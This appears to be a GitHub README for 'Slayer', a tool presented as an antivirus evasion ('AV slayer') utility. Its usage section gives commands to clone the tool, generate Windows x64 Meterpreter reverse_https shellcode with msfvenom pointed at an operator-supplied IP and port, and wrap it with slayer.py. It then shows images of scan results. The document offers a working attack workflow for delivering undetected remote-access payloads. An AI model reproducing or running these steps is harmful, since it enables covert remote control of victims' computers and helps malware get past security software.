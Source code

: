 # Slayer


![slayer](https://user-images.githubusercontent.com/48562581/152685082-aa292a0e-7683-4612-9105-ed34ec158e21.PNG)


Just an AV slayer. Nothing special ;)

### USAGE
git clone https://github.com/mertdas/slayer.git && apt-get install mingw-w64*

cd slayer

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR IP LPORT=YOUR PORT -f raw -o shellcode.raw

python3 slayer.py

### Scan Results

![image](https://user-images.githubusercontent.com/48562581/152684537-d445638f-c73b-46cb-a809-dfaa5a65b334.png)
